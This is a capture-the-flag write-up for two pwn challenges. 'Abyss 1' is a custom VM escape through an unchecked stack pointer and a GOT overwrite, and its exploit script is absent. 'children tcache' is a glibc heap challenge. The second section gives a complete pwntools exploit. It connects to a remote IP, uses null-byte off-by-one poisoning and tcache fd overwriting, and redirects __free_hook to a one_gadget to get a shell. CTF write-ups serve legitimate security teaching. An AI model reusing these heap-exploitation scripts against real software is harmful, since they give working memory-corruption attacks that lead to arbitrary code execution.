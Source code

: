 ## Abyss 1

This challenge is the VM escape from custom VM to user level arbitrary code execution. After some reverse engineering, we can find that there are vulnerabilities in `swap` and `rotate`, although I have used the `swap` only.

```c
_DWORD *swap_()
{
  int v0; // ST04_4
  _DWORD *result; // rax

  v0 = stack[sp_nxt - 1];
  stack[sp_nxt - 1] = stack[sp_nxt - 2];
  result = stack;
  stack[sp_nxt - 2] = v0;
  return result;
}
```

It is obvious that the value of `sp_nxt` is not checked, so if `sp_nxt` is 1, it will swap `stack[0]` and `stack[-1]`, and if we look at the memory layout, we can find that `stack[-1]` is exactly `sp_nxt`, which means that we can control the stack pointer to achieve arbitrary `read/write`.

The idea is to add a constant offset to the got table entry of the an uncalled function, such as `write`, which points to the program address(PLT entry) instead of libc, because it is not dynamically resolved yet. In this way, we can manipulate the function pointer to anywhere within the program image, including the `store` global array. Therefore, according to the hint, we can write the shellcode into that array, and let `write` to point to that array, and call the write function, to get arbitrary code execution.

However, when I was inspecting the address in the got table with `writed` VM instruction, I found a tricky part, which got me stuck for many hours. If you run user program directly(`./user.elf`) in Linux, the program address will begin as `0x5x`, and the libc address will begin as `0x7f`; but in this customed OS, they both begin as `0x7f`, which misled me initially and made me think that there is no dynamic resolution but it instead would load the libc addresses to got table when the program begins. The reason is probably that it inits the program using `ld.so.2 ./user.elf`, and if you do this in Linux, the program address will begin as `0x7f` too.

In addition, in the customed OS, the address of `ld` begins with `0x5x`, but if you run that command in Linux, the `ld` will begin as `0x7f`, which is quite different.

Finally, we need to decide what code to execute in order to get the flag, so we need to do some reversing for kernel first. After some reversing, we can find that the `syscall` table in kernel is `0x4020`, and so if we look at the `open` function:

```c
__int64 __fastcall open(const char *a1)
{
  unsigned int v1; // ebp
  char *v2; // rax
  __int64 v3; // rbx
  signed __int64 v4; // rax

  v1 = -14;
  if ( !(unsigned int)sub_FFF() )
    return v1;
  v1 = -12;
  v2 = strdup(a1);
  v3 = (__int64)v2;
  if ( !v2 )
    return v1;
  if ( (unsigned int)strcmp((__int64)v2, "ld.so.2")
    && (unsigned int)strcmp(v3, "/lib/x86_64-linux-gnu/libc.so.6")
    && (unsigned int)strcmp(v3, "/proc/sys/kernel/osrelease")
    && (unsigned int)strcmp(v3, "/etc/ld.so.cache")
    && (unsigned int)strcmp(v3, "./user.elf")
    && (v1 = -2, (unsigned int)strcmp(v3, "flag")) )
  {
    return v1;
  }
  v4 = sub_1183(v3);
  v1 = sub_E7E(v4);
  sub_1577(v3);
  return v1;
}
```

It is probably suggesting that the only files you can open are the files listed above, which include the flag, so the shellcode should just be `open("flag", 0)`, `read(fd, buf, 100)`, and `write(1, buf, 100)`.

The exp:

```python
# in another computer
```

## children tcache

My approach is not so elegant, which might not be the intended solution, so please don't criticize too harshly if you don't like it. :\)

The vulnerability is not so obvious at the first glance, but as you think about it again, it is not hard either.

```c
//in the add function
dest = (char *)malloc(size);
if ( !dest )
  exit(-1);
printf("Data:");
readstr(s, size);
strcpy(dest, s);
// null byte off by one, because '\0' will be added after string
```

We can just use null byte poisoning. But when a chunk is freed, `memset((void *)pbufs[v1], 0xDA, sizes[v1]);` will be executed first, which will overwrite all of the data in the chunk. For [null byte poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/poison_null_byte.c), we need to fake a `prev_size` to pass a check, but unfortunately we cannot do so due to such `memset` before `free`.

What I was thinking about is to construct a `0xda11` unsorted bin, and construct a `0xda00` as the `prev_size` by writing `0x00`s using null byte off by one. Then after overflowing, the size of unsorted bin becomes `0xda00`, which matches the `prev_size` exactly.

There are few points to note in this exploitation method: firstly, if there is a unsorted bin with size `0x4b0`, `malloc(0x490)` will also get you the whole chunk instead of seperating it into 2 chunks, because `0x10` chunk simply does not exist, which can enable us to construct `0xda00` at the end of the chunk; secondly, because the TCP package has the maximum size, do not send data with size larger than `0x500`, or else the `read` function will return even though the data are not read completely.

After obtaining the overlaped chunk using null byte poisoning, we can leak the libc address easily as usual, and rewrite the `fd` of a tcache chunk to enable the arbitrary chunk allocation. Different from fastbin, we don't need to fake the header, which is much easier. Also, the max index is 9, so the index is quite not enough. The reason is that we need to allocate about 7 times to get a `0xda00` chunk, given the maximum `malloc` size allowance being `0x2000`, but fortunately, we can exploit it with such maximum index exactly.

The exp:

```python
from pwn import *

g_local=False
context.log_level='debug'
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
UNSORTED_OFF = 0x3ebca0
if g_local:
	sh = process('./children_tcache')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("54.178.132.125", 8763)
	#ONE_GADGET_OFF = 0x4557a

def add(size, data):
	sh.send("1\x00")
	sh.recvuntil("Size:")
	sh.send(str(size) + "\x00")
	sh.recvuntil("Data:")
	sh.send(data)
	sh.recvuntil("Your choice: ")

def dele(idx):
	sh.send("3\x00")
	sh.recvuntil("Index:")
	sh.send(str(idx) + "\x00")
	sh.recvuntil("Your choice: ")

def show(idx):
	sh.send("2\x00")
	sh.recvuntil("Index:")
	sh.send(str(idx) + "\x00")
	ret = sh.recvuntil("\n")
	sh.recvuntil("Your choice: ")
	return ret[:len(ret)-1]

for i in xrange(0,6):
	add(0x2000, "ab") #0-5
add(0x2000-0x250, "ab")

add(0x1010, "c") #7
for i in xrange(0,7):
	dele(i)
# hex(0xe070-0xda10) = 0x660

add(0x400, "a") #0
#0xda11 unsorted

for i in xrange(1,7):
	add(0x2000, "bs") #1-6
#0x19b1 unsorted

add(0x14F0, "bn") #8
#0x4b1 unsorted
for i in xrange(0,6):
	add(0x497 - i, "b".ljust(0x497 - i, "n")) #9
	#will still get the 0x4b1 size chunk, because there is no 0x10 chunk
	dele(9)
add(0x490, "b".ljust(0x490, "n")) #9
#0xda00 prevsize being constructed

dele(8) #delete 8 first to prevent top chunk consolidate
dele(7)
add(0x2000, "c1") #7
add(0x2000, "pad") #8
dele(9)

for i in xrange(1,7):
	dele(i)
#0xda11 unsorted, and x/4gx 0x8b0+0xda00 is
# 0x000000000000da00	0xdadadadadadadada
# 0x000000000000da10	0x0000000000000510

dele(0) #a
add(0x408, "a" * 0x408) #0, trigger vuln!
#0xda00 unsorted

# 1-6 9 empty

add(0x500, "b1") #1
add(0x1800, "b2") #2
add(0x200, "b3") #3

dele(3) #tcache
dele(1)
dele(7)
#all: 0x561abcfa3ae0 -> 0x7fea7da40ca0 (main_arena+96) -> 0x561abcf9f8b0 <- 0x561abcfa3ae0
#overlap unsorted bin
# 1 3-7 9

for i in xrange(0,5):
	add(0x2000, "/bin/sh\x00")
add(0x1A70, "remove all b from bins, now there is only bc chunk")

add(0x500, "should leak") #9
libc_addr = u64(show(2) + "\x00\x00") - UNSORTED_OFF
print hex(libc_addr)
dele(9)
dele(8) #free padding since we've already leaked, this frees some index
add(0x1D10, "reach tcache") #8
add(0x10, p64(libc_addr + e.symbols["__free_hook"]))
dele(8)
add(0x200, "hopefully works")
dele(4) #index reallllllly not sufficient!!!!!
add(0x200, p64(libc_addr + 0x4f322)) #0x40 one_gadget

sh.send("3\x00")
sh.recvuntil("Index:")
sh.send(str(5) + "\x00")

sh.interactive()
```

